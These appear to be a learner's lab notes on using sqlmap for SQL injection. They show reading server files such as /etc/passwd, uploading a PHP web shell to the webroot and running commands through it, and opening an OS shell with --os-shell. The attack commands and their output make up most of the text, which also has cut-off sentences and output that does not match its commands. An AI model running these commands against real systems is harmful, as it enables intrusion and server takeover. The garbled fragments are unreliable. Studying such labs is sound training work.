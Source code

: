 
SQL Injection to read and write files from the local system outside the DBMS. SQLMap can also attempt to give us direct command execution on the remote host if we had the proper privileges.

## File Read/Write
Reading data is much more common than writing data, which is strictly privileged in modern DBMSes, as it can lead to system exploitation, as we will see. 
>For example, in MySql, to read local files, the DB user must have the privilege to `LOAD DATA` and `INSERT`, to be able to load the content of a file to a table and then reading that table.

- `LOAD DATA LOCAL INFILE '/etc/passwd' INTO TABLE passwd;`

>While we do not necessarily need to have database administrator privileges (DBA) to read data, this is becoming more common in modern DBMSes.
 we do have DBA privileges, then it is much more probable that we have file-read privileges.

## Checking for DBA Privileges
```bash
AhmaDb0x@htb[/htb]$ sqlmap -u "http://www.example.com/case1.php?id=1" --is-dba
```
```shell-session
current user is DBA: False OR true
```

## Reading Local Files
```bash
AhmaDb0x@htb[/htb]$ sqlmap -u "http://94.237.51.163:40834/?id=1" --file-read "/var/www/html/flag.txt"

```
```shell-session
files saved to [1]:
[*] ~/.sqlmap/output/www.example.com/files/_etc_passwd (same file)
```

```shell-session
AhmaDb0x@htb[/htb]$ cat ~/.sqlmap/output/www.example.com/files/_etc_passwd
```


## Writing Local Files
much more restricted in modern DMBSes, since we can utilize this to write a Web Shell on the remote server, and hence get code execution and take over the server.


>This is why modern DBMSes disable file-write by default and need certain privileges for DBA's to be able to write files. For example, in MySql, the `--secure-file-priv` configuration must be manually disabled to allow writing data into local files using the `INTO OUTFILE` SQL query,

many web applications require the ability for DBMSes to write data into files, so it is worth testing whether we can write files to the remote server. To do that with SQLMap, we can use the `--file-write` and `--file-dest` options


```bash
AhmaDb0x@htb[/htb]$ echo '<?($_GET["cmd"]); ?>' > shell.php
```

>``/var/www/html/` directory, the default server webroot for Apache`

```bash
AhmaDb0x@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"
```
The flag is in a very common directory!

```bash
AhmaDb0x@htb[/htb]$ curl http://www.example.com/shell.php?cmd=ls+-la
```

---
## OS Command Execution
`xp_cmdshell` in Microsoft SQL Server. To get an OS shell with SQLMap, we can use the `--os-shell` option, as follows:

```bash
AhmaDb0x@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --os-shell
```
We see that SQLMap defaulted to `UNION` technique to get an OS shell, but eventually failed to give us any output `No output`


>direct output, like the `Error-based SQL Injection`, which we can specify with `--technique=E`:
```bash
AhmaDb0x@htb[/htb]$ sqlmap -u "http://94.237.51.163:40834/?id=1" --os-shell --technique=E --batch
```
```shell-session
which web application language does the web server support?
[1] ASP
[2] ASPX
[3] JSP
[4] PHP (default)
> 4
```
```shell-session
what do you want to use for writable directory?
[1] common location(s) ('/var/www/, /var/www/html, /var/www/htdocs, /usr/local/apache2/htdocs, /usr/local/www/data, /var/apache2/htdocs, /var/www/nginx-default, /srv/www/htdocs') (default)
[2] custom location(s)
[3] custom directory list file
[4] brute force search
> 1
```
Note: SQLMap first asked us for the type of language used on this remote server, which we know is PHP. Then it asked us for the server web root directory, and we asked SQLMap to automatically find it using 'common location(s)'. Both of these options are the default options, and would have been automatically chosen if we added the '--batch' option to SQLMap.

---

common location(s) ('/var/www/, /var/www/html, /var/www/htdocs, /usr/local/apache2/htdocs, /usr/local/www/data, /var/apache2/htdocs, /var/www/nginx-default, /srv/www/htdocs, /usr/local/var/www') (default)



# skill assessment
Similarly, when inspecting the Send Message button, the form’s action is also set to #, indicating no data is posted to the server, so this page is not vulnerable
`sqlmap -r req.txt --threads 10 --tamper=between -T final_flag --dump --batch`






